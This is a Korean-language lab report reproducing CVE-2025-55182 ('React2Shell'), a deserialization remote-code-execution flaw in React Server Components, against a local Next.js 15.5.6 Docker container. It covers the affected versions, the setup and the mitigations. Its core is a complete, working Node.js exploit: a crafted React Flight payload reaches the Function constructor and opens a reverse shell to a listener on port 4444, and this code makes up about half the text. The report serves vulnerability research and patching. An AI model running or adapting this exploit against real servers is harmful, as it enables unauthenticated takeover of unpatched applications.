





# React2Shell 원격 코드 실행 취약점 재현 보고서

## 1. 취약점 요약

사용하는 `vulhub/nextjs:15.5.6` 의 이미지는 원래 **CVE-2025-55182** 를 위해 구성된 것이 아닌 **CVE-2025-29927**를 위해 구성된 환경이지만 **CVE-2025-55182** 환경에도 적합하여 이 CVE로 진행하였다.

React2Shell은 React Server Components의 Flight 프로토콜 요청을 역직렬화하는 과정에서 발생하는 인증 없는 원격 코드 실행 취약점이다.

- 취약점: **CVE-2025-55182**
- 취약점 유형: 신뢰할 수 없는 데이터의 역직렬화(CWE-502)
- 공격 복잡도: 낮음
- 필요 권한: 없음
- 사용자 상호작용: 없음
- 영향: 서버 권한으로 임의 JavaScript 및 운영체제 명령 실행

취약한 RSC 디코더는 공격자가 전송한 객체 참조와 내부 상태를 충분히 검증하지 않았다. 공격자는 조작된 React Flight 데이터를 이용하여 JavaScript의 `Function` 생성자에 접근하고 서버에서 임의 코드를 실행할 수 있다.

## 2. 환경 구성

### 2.1 구성 요소

| 구분 | 내용 |
|---|---|
| 공격 대상 | Docker 컨테이너 |
| Docker 이미지 | `vulhub/nextjs:15.5.6` |
| Next.js | `15.5.6` |
| 웹 서비스 포트 | 호스트 `127.0.0.1:3000` -> 컨테이너 `3000` |
| 공격 코드 | Node.js 기반 `poc.js` |
| 콜백 포트 | TCP `4444` |

`vulhub/nextjs:15.5.6`은 원래 다른 Next.js 취약점 실습에도 사용되는 이미지지만, React2Shell 최초 수정 버전인 Next.js `15.5.7`보다 이전 버전이다. 실제 PoC 실행을 통해 이 이미지의 RSC 처리 경로에서도 원격 코드 실행이 가능함을 동적으로 확인하였다.

### 2.2 Docker Compose

```yaml
services:
  web:
    image: vulhub/nextjs:15.5.6
    ports:
      - "127.0.0.1:3000:3000"
    extra_hosts:
      - "host.docker.internal:host-gateway"
    restart: "no"
```

- `3000:3000`: 3000번 포트 열고 
- `host.docker.internal:host-gateway`: 컨테이너가 Docker 호스트의 TCP `4444` 포트로 역접속할 수 있게 한다.
- `restart: "no"`: 종료후 자동 실행 막기.

## 3. 취약 조건

### 3.1 취약한 버전

React2Shell은 다음 React Server DOM 패키지 버전에 영향을 준다.

- `react-server-dom-webpack`: `19.0.0`, `19.1.0`, `19.1.1`, `19.2.0`
- `react-server-dom-parcel`: `19.0.0`, `19.1.0`, `19.1.1`, `19.2.0`
- `react-server-dom-turbopack`: `19.0.0`, `19.1.0`, `19.1.1`, `19.2.0`

Next.js에서는 App Router를 사용하는 Next.js `15.x`, `16.x` 및 일부 Canary 버전이 영향을 받았다. 본 환경의 Next.js `15.5.6`은 최초 수정 버전 `15.5.7`보다 이전이므로 취약 범위에 포함된다.

### 3.2 App Router와 RSC

Next.js 애플리케이션이 `app/` 또는 `src/app/` 디렉터리를 사용하면 App Router 구성이다. App Router의 컴포넌트는 기본적으로 React Server Components로 처리된다.

다음 명령으로 이미지 내부 구성을 확인할 수 있다.

```powershell
docker compose exec web sh -lc "find src/app app -maxdepth 3 -type f 2>/dev/null | sort"
```

빌드 결과에 App Router가 포함되었는지는 다음과 같이 확인한다.

```powershell
docker compose exec web sh -lc "find .next/server/app -maxdepth 3 -type f 2>/dev/null | head -50"
```

`src/app/page.tsx`, `src/app/layout.tsx` 또는 `.next/server/app` 아래의 빌드 파일이 확인되면 App Router가 실제로 사용된 것이다. `route.ts`는 Route Handler를 의미하며 React2Shell의 필수 조건은 아니다.

### 3.3 Node.js Runtime

Next.js 공식 권고문에 따르면 Pages Router 애플리케이션과 Edge Runtime은 해당 Next.js RCE의 영향을 받지 않는다. 본 실습에서는 PoC로 Node.js의 `child_process`, `net` 모듈과 `/bin/sh`를 실제 실행했으므로 Node.js Runtime 사용을 동적으로 확인하였다.

정적으로 확인하려면 다음 명령을 사용할 수 있다.

```powershell
docker compose exec web sh -lc "grep -R \"runtime.*edge\" src/app app 2>/dev/null || true"
```

별도 Edge Runtime 선언이 없으면 일반적으로 기본 Node.js Runtime을 사용한다.

### 3.4 리버스 셸 추가 조건

RCE 성공과 리버스 셸 성공 조건은 서로 다르다. 리버스 셸까지 연결하려면 다음 조건이 추가로 필요하다.

- 서버에서 `/bin/sh` 실행 가능
- Node.js `child_process`와 `net` 모듈 사용 가능
- 컨테이너에서 호스트 TCP `4444` 포트로 아웃바운드 연결 가능
- 공격자 측 TCP `4444` 리스너 실행
- 방화벽 또는 보안 제품이 콜백 연결을 차단하지 않음

## 4. 재현 절차

### 4.1 취약 환경 실행

```powershell
docker compose up -d
```
컨테이너 빌드한다.


웹 서비스가 정상적으로 실행되면 브라우저에서 `http://127.0.0.1:3000/`에 접근할 수 있다.


### 4.2 PoC 실행

공격자 호스트에서 다음 명령을 한 번 실행한다.

```powershell
node poc.js http://127.0.0.1:3000/
```

PoC는 다음 작업을 자동으로 수행한다.

1. 공격자 호스트의 TCP `4444` 포트에서 연결 대기
2. 조작된 React Flight 객체를 multipart FormData로 생성
3. `Next-Action` 헤더와 함께 대상 서버로 POST 요청 전송
4. 취약한 RSC 역직렬화 경로를 통해 JavaScript 실행
5. 대상 컨테이너에서 `/bin/sh -i` 실행
6. 컨테이너가 `host.docker.internal:4444`로 역접속
7. 공격자 터미널의 표준 입력과 셸의 표준 입·출력을 TCP 소켓에 연결


### 4.4 셸 확인

연결 후 같은 터미널에서 다음 명령을 입력한다.

```sh
id
whoami
pwd
ls -la
```


## 5. PoC 코드

```javascript
"use strict";

const net = require("node:net");

const target = process.argv[2] || "http://127.0.0.1:3000/";
const callbackHost = "host.docker.internal";
const callbackPort = 4444;
const responseTimeoutMs = 10000;

const shellPayload = `
  (() => {
    const cp = process.getBuiltinModule
      ? process.getBuiltinModule("node:child_process")
      : process.mainModule.require("child_process");
    const net = process.getBuiltinModule
      ? process.getBuiltinModule("node:net")
      : process.mainModule.require("net");

    const client = new net.Socket();
    const shell = cp.spawn("/bin/sh", ["-i"], {
      stdio: ["pipe", "pipe", "pipe"]
    });

    client.connect(${callbackPort}, ${JSON.stringify(callbackHost)}, () => {
      client.write("REACT2SHELL connected\\n");
    });

    client.on("data", (data) => {
      const input = data.toString("utf8").replace(/\\r\\n/g, "\\n").replace(/\\r/g, "\\n");
      shell.stdin.write(input);
    });
    client.on("close", () => shell.kill());
    client.on("error", () => shell.kill());

    shell.stdout.on("data", (data) => client.write(data));
    shell.stderr.on("data", (data) => client.write(data));
    shell.on("close", () => client.end());
  })();
  //
`;

const payload = {
  "0": "$1",
  "1": {
    status: "resolved_model",
    reason: 0,
    _response: "$4",
    value: "{\"then\":\"$3:map\",\"0\":{\"then\":\"$B3\"},\"length\":1}",
    then: "$2:then"
  },
  "2": "$@3",
  "3": [],
  "4": {
    _prefix: shellPayload,
    _formData: {
      get: "$3:constructor:constructor"
    },
    _chunks: "$2:_response:_chunks"
  }
};

function isResponseTimeout(error) {
  return error?.name === "TimeoutError" ||
    error?.name === "AbortError" ||
    error?.cause?.code === "UND_ERR_HEADERS_TIMEOUT";
}

async function sendExploit(form) {
  try {
    const response = await fetch(target, {
      method: "POST",
      headers: {
        "Next-Action": "x"
      },
      body: form,
      signal: AbortSignal.timeout(responseTimeoutMs)
    });

    console.log(`status: ${response.status}`);
  } catch (error) {
    if (!isResponseTimeout(error)) {
      throw error;
    }

    console.log("no response");
  }
}

async function main() {
  const form = new FormData();

  for (const [key, value] of Object.entries(payload)) {
    form.append(key, JSON.stringify(value));
  }

  let connected = false;
  const server = net.createServer((socket) => {
    connected = true;
    console.log("RCE suc.");

    const forwardInput = (data) => {
      const input = data.toString("utf8").replace(/\r\n/g, "\n").replace(/\r/g, "\n");
      socket.write(input);
    };

    socket.pipe(process.stdout);
    process.stdin.resume();
    process.stdin.on("data", forwardInput);

    socket.on("close", () => {
      console.log("\ndiscon");
      process.stdin.off("data", forwardInput);
      process.stdin.pause();
      server.close();
    });
  });

  server.on("error", (error) => {
    console.error("failed to listener");
    console.error(error.message);
    process.exitCode = 1;
  });

  server.listen(callbackPort, "0.0.0.0", async () => {
    console.log(`Target: ${target}`);
    console.log(`Listening: 0.0.0.0:${callbackPort}`);
    console.log("Sending ex");

    try {
      await sendExploit(form);
    } catch (error) {
      console.error("PoC failed");
      console.error(error);
      server.close();
      process.exitCode = 1;
    }
  });

  setTimeout(() => {
    if (!connected) {
      console.log("waiting..");
    }
  }, 5000);
}

main().catch((error) => {
  console.error("failed to run PoC");
  console.error(error);
  process.exitCode = 1;
});

```

## 6. 실행 결과

폴더를 만들었고 컨테이너 내 폴더 조회 결과 폴더 생성을 확인하였다.




이를 통해 다음 사실을 확인하였다.

1. 조작된 HTTP 요청이 취약한 RSC 역직렬화 경로에 도달하였다.
2. 공격자가 지정한 JavaScript가 Next.js 서버 프로세스에서 실행되었다.
3. `child_process.execSync()`를 통해 운영체제 명령이 실행되었다.
4. 명령은 컨테이너의 `root` 권한으로 실행되었다.
5. 현재 작업 디렉터리는 `/usr/src`이며 애플리케이션 및 빌드 파일에 접근할 수 있었다.

## 7. 대응 방안


- Next.js `15.5.x`에서는 적어도 React2Shell 최초 수정 버전인 `15.5.7` 이상으로 업데이트한다.
- React Server DOM `19.2.x`에서는 적어도 최초 수정 버전인 `19.2.1` 이상으로 업데이트한다.
- 후속 RSC 취약점도 존재하므로 실제 운영 환경에서는 최소 버전에 고정하지 말고 현재 지원되는 릴리스 라인의 최신 보안 패치 버전을 사용한다.
- React는 Chunk의 일반 `_response` 속성을 제거하고, 런타임에서 생성한 고유 `Symbol`을 통해서만 실제 Response 객체를 참조하도록 변경한다. 이에 따라 공격자가 JSON으로 가짜 `_response` 객체를 구성해 내부 Response처럼 사용하는 공격이 차단된다.
- Flight 참조의 속성 경로를 해석할 때 `hasOwnProperty` 검사를 적용하여 객체가 직접 소유한 속성만 접근하도록 변경한다.. 따라서 `$3:constructor:constructor`, `$3:map`처럼 프로토타입에서 상속된 `constructor`, `map`에 접근하는 공격 경로가 차단된다.